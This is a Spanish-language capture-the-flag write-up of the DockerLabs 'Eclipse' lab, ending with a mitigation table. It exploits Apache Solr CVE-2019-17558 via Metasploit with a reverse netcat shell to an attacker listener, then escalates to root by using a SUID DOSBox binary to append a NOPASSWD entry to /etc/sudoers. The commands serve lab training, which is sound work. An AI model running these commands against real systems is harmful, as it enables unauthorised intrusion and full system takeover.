


# Eclipse — DockerLabs Writeup

**Platform:** DockerLabs | **Difficulty:** mid | **Target IP:** 172.17.0.2

## Descripcion

Laboratorio enfocado en análisis forense y técnicas de ocultación de malware.

## Attack chain

**Nmap → Apache Solr 8.3.0 Enumeration → CVE-2019-17558 (Velocity Template RCE) → Reverse Shell → SUID Enumeration → DOSBox Abuse (GTFOBins) → Root**

## 1. Analisis y escaneo del objetivo

Se realiza un escaneo completo de puertos con `nmap`:

```bash
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/03-medio/eclipse]
└─$ nmap -sV -sC -p- 172.17.0.2
Starting Nmap 7.991 ( https://nmap.org ) at 2026-11-22 15:33 -0300
Nmap scan report for 172.17.0.2
Host is up (0.0000080s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.59 ((Debian))
|_http-title: Epic Battle
|_http-server-header: Apache/2.4.59 (Debian)
8983/tcp open  http    Apache Solr
|_http-title: Did not follow redirect to http://172.17.0.2:8983/solr/
MAC Address: 36:09:50:77:5E:DB (Unknown)
```

Puntos destacados del escaneo:

- Puerto 80 (HTTP): Apache 2.4.59 sobre Debian, página titulada "Epic Battle".
- Puerto 8983 (HTTP): Apache Solr, con redirección al panel de administración (`/solr/`).

## 2. Reconocimiento web

### 2.1 Puerto 80



Al acceder por navegador solo se muestra una imagen, sin más contenido visible. Se descarga la imagen y se analiza en busca de datos ocultos (esteganografía, metadatos, strings embebidos) sin resultados positivos — este contenido resultó no ser relevante para la cadena de explotación.

### 2.2 Puerto 8983 — Apache Solr

Desde el panel de administración (`http://172.17.0.2:8983/solr/#/`) se confirma la versión exacta del servicio:



```
Apache Solr 8.3.0
```

Esta versión es vulnerable a **CVE-2019-17558**, un RCE a través del `VelocityResponseWriter` cuando el `params.resource.loader.enabled` puede ser forzado a `true` vía la Config API.

Se enumeran los *cores* existentes consultando la Admin API:

```bash
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/03-medio/eclipse]
└─$ curl http://172.17.0.2:8983/solr/admin/cores?indexInfo=false&wt=json
{
  "responseHeader":{
    "status":0,
    "QTime":0},
  "initFailures":{},
  "status":{
    "0xDojo":{
      "name":"0xDojo",
      "instanceDir":"/opt/solr/server/solr/0xDojo",
      "dataDir":"/opt/solr/server/solr/0xDojo/data/",
      "config":"solrconfig.xml",
      "schema":"managed-schema",
      "startTime":"2026-11-22T18:28:42.756Z",
      "uptime":755950}}}
```

Core identificado: **`0xDojo`**.

## 3. Explotación - Acceso inicial

Se utiliza el módulo de Metasploit `exploit/multi/http/solr_velocity_rce`, que automatiza la detección de la versión, el core vulnerable y la inyección de la plantilla Velocity maliciosa.

```bash
msf > use exploit/multi/http/solr_velocity_rce
msf exploit(multi/http/solr_velocity_rce) > set RHOSTS 172.17.0.2
msf exploit(multi/http/solr_velocity_rce) > set RPORT 8983
msf exploit(multi/http/solr_velocity_rce) > set LHOST 172.17.0.1
msf exploit(multi/http/solr_velocity_rce) > set LPORT 4444
msf exploit(multi/http/solr_velocity_rce) > set TARGET 1
msf exploit(multi/http/solr_velocity_rce) > set payload cmd/unix/reverse_netcat
msf exploit(multi/http/solr_velocity_rce) > set DisablePayloadHandler true
msf exploit(multi/http/solr_velocity_rce) > exploit
[*] 172.17.0.2:8983: Authentication not required
[*] Found Apache Solr 8.3.0
[*] OS version is Linux amd64 7.2.15+kali-amd64
[*] Found core(s): 0xDojo
[+] Found Velocity Response Writer in use by core '0xDojo'
[+] params.resource.loader.enabled for core '0xDojo' is set to true.
[*] Targeting core '0xDojo'
```

**Nota:** se optó por deshabilitar el handler interno de Metasploit (`DisablePayloadHandler true`) y capturar la conexión reversa con un listener de `netcat` propio, lo que da mayor control y evita problemas de compatibilidad con los payloads por defecto del módulo (como `cmd/unix/php/meterpreter/reverse_tcp`, que falló por no haber PHP disponible en el contenedor).

```bash
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/03-medio/eclipse]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 42630
id
uid=1000(ninhack) gid=1000(ninhack) groups=1000(ninhack)
```

Shell obtenida como el usuario **`ninhack`**.

## 4. Escalada de privilegios

### 4.1 Enumeración de sudo

```bash
ninhack@ea6329452bf0:/opt/solr/server$ sudo -l
[sudo] password for ninhack:
```

El usuario no cuenta con contraseña conocida, por lo que `sudo -l` queda descartado como vía directa.

### 4.2 Búsqueda de binarios SUID

```bash
ninhack@ea6329452bf0:/opt/solr/server$ find / -perm -4000 2>/dev/null
/usr/bin/umount
/usr/bin/mount
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/su
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/dosbox
/usr/bin/sudo
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

Entre los binarios estándar del sistema aparece uno fuera de lo común: **`/usr/bin/dosbox`**, un emulador de MS-DOS, con el bit SUID activado y propiedad de `root`:

```bash
ninhack@ea6329452bf0:/opt/solr/server$ ls -la /usr/bin/dosbox
-rwsr-xr-x 1 root root 2560896 Sep 19  2022 /usr/bin/dosbox
```

### 4.3 Abuso de DOSBox (GTFOBins)

DOSBox permite montar directorios reales del sistema como unidades de DOS y ejecutar comandos de escritura de archivos sobre ellas. Como el binario corre con privilegios de root (por el SUID), cualquier escritura realizada dentro del emulador se ejecuta también con privilegios de root, otorgando **escritura arbitraria de archivos como root**.

Se abusa de esta primitiva para añadir una entrada a `/etc/sudoers` que otorga a `ninhack` permisos de sudo sin contraseña:

```bash
ninhack@ea6329452bf0:/opt/solr/server$ dosbox -c 'mount c /' -c 'echo ninhack ALL=(ALL) NOPASSWD:ALL >> c:\etc\sudoers' -c exit
DOSBox version 0.74-3
Copyright 2002-2019 DOSBox Team, published under GNU GPL.
---
```

### 4.4 Escalada confirmada

```bash
ninhack@ea6329452bf0:/opt/solr/server$ sudo bash
root@ea6329452bf0:/opt/solr/server# id
uid=0(root) gid=0(root) groups=0(root)
root@ea6329452bf0:/opt/solr/server# whoami
root
```

Shell interactiva como `root` confirmada.

> **Nota técnica:** se intentó también crear usuarios adicionales editando directamente `/etc/passwd` y `/etc/shadow` vía DOSBox. El primer intento falló porque DOSBox, al ser un emulador de DOS, escribe los archivos con finales de línea `CRLF` (`\r\n`) en vez de `LF` (`\n`), lo que corrompía el campo del shell (`/bin/bash\r` en vez de `/bin/bash`) impidiendo el login. El problema se solucionó limpiando los retornos de carro con `sed -i 's/\r$//' /etc/passwd /etc/shadow`. Finalmente se optó por la vía de `sudoers`, más directa y sin este inconveniente.

# Conclusión

A partir del escaneo inicial con **Nmap** se identificaron dos servicios web: un sitio estático sin relevancia aparente en el puerto 80, y una instancia de **Apache Solr 8.3.0** en el puerto 8983. La versión identificada resultó vulnerable a **CVE-2019-17558**, un RCE vía plantillas Velocity, explotado con el módulo de Metasploit correspondiente tras identificar el core `0xDojo`, obteniendo acceso inicial como el usuario `ninhack`.

La enumeración de binarios con bit SUID reveló la presencia de **DOSBox**, un emulador de MS-DOS con permisos elevados no estándar para este tipo de binario. Aprovechando su capacidad de montar y escribir en el sistema de archivos real, se logró escritura arbitraria como root, utilizada para modificar `/etc/sudoers` y obtener una shell de root sin necesidad de contraseña.

En conclusión, esta máquina combina la explotación de una vulnerabilidad conocida en un servicio de búsqueda empresarial (Solr) con una escalada de privilegios basada en un binario SUID mal configurado, ilustrando cómo herramientas aparentemente inofensivas pueden convertirse en vectores críticos de escalada cuando se les otorgan permisos excesivos.

| Vulnerabilidad / Técnica | Impacto | Mitigación |
|---|---|---|
| **Apache Solr 8.3.0 — CVE-2019-17558** | Permite ejecución remota de código a través de plantillas Velocity manipuladas. | Actualizar Solr a una versión parcheada y restringir el acceso a la Config API. |
| **Exposición pública de la Admin API de Solr** | Permite enumerar cores y configuración sin autenticación. | Habilitar autenticación en Solr y restringir el acceso a la interfaz de administración. |
| **Binario SUID no estándar (DOSBox)** | Permite escritura arbitraria de archivos con privilegios de root. | Eliminar el bit SUID de binarios que no lo requieren explícitamente; aplicar el principio de mínimo privilegio. |
| **Archivo `/etc/sudoers` modificable por un proceso SUID comprometido** | Permite otorgar privilegios de sudo sin contraseña a cualquier usuario. | Monitorear cambios en archivos críticos del sistema (`/etc/sudoers`, `/etc/passwd`, `/etc/shadow`) con herramientas de integridad de archivos (AIDE, Tripwire). |

## Recomendaciones generales

- Mantener actualizados los servicios expuestos, especialmente aquellos con vulnerabilidades críticas conocidas y públicas como Apache Solr.
- Restringir el acceso a interfaces de administración (Solr Admin API) solo a redes internas o mediante autenticación fuerte.
- Auditar periódicamente los binarios con bit SUID/SGID en el sistema, eliminando el bit en aquellos que no lo requieran.
- Implementar monitoreo de integridad de archivos críticos del sistema.
- Aplicar el principio de mínimo privilegio en todos los servicios y usuarios del sistema.
